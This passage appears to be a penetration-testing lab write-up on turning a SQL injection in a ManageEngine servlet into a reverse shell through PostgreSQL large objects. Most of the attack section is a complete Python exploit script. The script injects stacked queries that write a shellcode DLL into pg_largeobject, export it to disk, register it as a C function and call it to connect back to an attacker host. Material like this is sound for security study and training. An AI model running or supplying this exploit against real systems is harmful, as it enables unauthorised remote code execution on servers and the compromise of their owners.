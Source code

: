 ## Local Network Limitation
Even though we did manage to get a shell on the ManageEngine server, we managed to get it by utilizing a share on the local network.
An alternative to the remote Samba extension loading is to find a method to transfer the malicious DLL to the remote server directly through an SQL query.

## PostgreSQL Large Objects
 PostgreSQL exposes a structure called _large object_, which is used for storing data that would be difficult to handle in its entirety.
 The advantage of large objects lies in the fact that the data they hold can be exported back to the file system as an identical copy of the original imported file.

A large object is created by calling the _lo_import_ function while providing it the path to the file we want to import:

![](../../Screenshots/t2-ss21.png)

We import the win.ini file to the database and when we list it, we get a loid, of the large object.
This is an integral value to reference while exporting a large object.
It may look arbitrary, however we can control the loid by passing it as a parameter of the lo_import function:

![](../../Screenshots/t2-ss22.png)

Now, to export the file on to the remote file system, we need the know where large objects are stored in the database.
The large objects are stored in the pg_largeobject table.
Apart from the loid, in the pg_largeobject table, we also need to notice a critical piece of information i.e. the pageno field which defines the page number.
When large objects are imported into a PostgreSQL database, they are split into 2KB chunks, which are then stored individually in the _pg_largeobject_ table.

Moving on, if we choose to see what data is inside our large object entry right after import, we can see it using the data parameter:

![](../../Screenshots/t2-ss23.png)

We can update this entry, for instance, using the hex value of a string and providing it's loid and pageno value:

![](../../Screenshots/t2-ss24.png)

Finally, we can export these values to the file system using the lo_import function of PostgreSQL.

![](../../Screenshots/t2-ss25.png)

## Getting Reverse Shell
We are gonna take the following course of action to get a reverse shell using the large object feature of PostgreSQL:
1. Create a malicious DLL file containing shellcode.
2. Inject a query that creates a large object from an arbitrary remote file(like win.ini).
3. Inject a query that updates page 0 of the newly created large object with the first 2kb of our malicious DLL.
4. Inject more similar queries that insert additional pages of the pg_largeobject table to contain the rest of the malicious DLL file.
5. Inject a query that exports the DLL file to remote file system from the database.
6. Inject a query that creates a custom function in the PostgreSQL database, using the DLL.
7. Inject a query that executes the newly created UDF.

We will use the following python script to do all of that:

```python
import requests, sys, urllib, string, random, time
requests.packages.urllib3.disable_warnings()

# encoded UDF rev_shell dll
udf = 'hex encoded dll file'
loid = 1337

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def delete_lo(url, loid):
   log("[+] Deleting existing LO...")
   sql = "SELECT lo_unlink(%d)" % loid
   make_request(url, sql)

def create_lo(url, loid):
   log("[+] Creating LO for UDF injection...")
   sql = "SELECT lo_import($$C:\\windows\\win.ini$$,%d)" % loid
   make_request(url, sql)
   
def inject_udf(url, loid):
   log("[+] Injecting payload of length %d into LO..." % len(udf))
   for i in range(0,((len(udf)-1)/4096)+1):
         udf_chunk = udf[i*4096:(i+1)*4096]
         if i == 0:
             sql = "UPDATE PG_LARGEOBJECT SET data=decode($$%s$$, $$hex$$) where loid=%d and pageno=%d" % (udf_chunk, loid, i)
         else:
             sql = "INSERT INTO PG_LARGEOBJECT (loid, pageno, data) VALUES (%d, %d, decode($$%s$$, $$hex$$))" % (loid, i, udf_chunk)
         make_request(url, sql)

def export_udf(url, loid):
   log("[+] Exporting UDF library to filesystem...")
   sql = "SELECT lo_export(%d, $$C:\\Users\\Public\\rev_shell.dll$$)" % loid
   make_request(url, sql)
   
def create_udf_func(url):
   log("[+] Creating function...")
   sql = "create or replace function rev_shell(text, integer) returns VOID as $$C:\\Users\\Public\\rev_shell.dll$$, $$connect_back$$ language C strict"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
   delete_lo(sqli_url, loid)   
   create_lo(sqli_url, loid)
   inject_udf(sqli_url, loid)
   export_udf(sqli_url, loid)
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)
```

Executing the script:

![](../../Screenshots/t2-ss26.png)

We get the shell:
![](../../Screenshots/t2-ss27.png)